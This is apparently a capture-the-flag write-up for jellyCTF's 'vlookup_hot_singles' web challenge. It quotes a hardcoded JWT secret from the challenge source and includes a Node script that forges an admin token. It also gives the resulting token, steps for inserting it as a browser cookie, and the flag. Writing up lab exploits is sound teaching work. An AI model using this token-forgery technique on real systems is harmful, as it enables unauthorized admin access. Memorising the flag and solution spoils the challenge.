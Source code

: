 # vlookup_hot_singles

## Difficulty

Easy

## Points Earned

100

## Description

> looks like this is some kind of dating site for nerds? weird, figure out who the admin is and access their panel
> 
> 50 point hint: what to do, but not how to do it
> 
> Author: arepi
> 
> https://vlookup-hot-singles.jellyc.tf/

![vlookup_hot_singles website](./images/vlookup_hot_singles.png "vlookup_hot_singles")

## Solution

Looking at the source code, it's obvious that we need to forge a JWT to access the admin panel. The information we need to include in the JWT is also there:

```python
JWT_SECRET = "singaQu5aeWoh1vuoJuD]ooJ9aeh2soh"

def is_admin(token):
    data = jwt.decode(token, JWT_SECRET, algorithms=["HS256"])
    return data["user"] == "jelly"
```

I wrote a Node script to generate the JWT:

```js
#!/usr/bin/node

const sign = require('jwt-encode');
const secret = 'singaQu5aeWoh1vuoJuD]ooJ9aeh2soh';
const data = { user: "jelly" };
const jwt = sign(data, secret);
console.log(jwt);
```

Which gives me `eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJ1c2VyIjoiamVsbHkifQ.7wQ41K0c7OZqWaePlf3v0QKuX-jOc4kFqks_eWrfQhE`.

Then I opened Chrome devtools and went to cookies under Application > Storage. Paste the encoded JWT into the `token` value field and then you should be able to access the admin panel.

![vlookup_hot_singles solution](./images/vlookup_hot_singles_sol.png "vlookup_hot_singles solution")

## Flag

`jellyCTF{i_am_b3c0m3_awawa_d3str0y3r_0f_f3m4135}`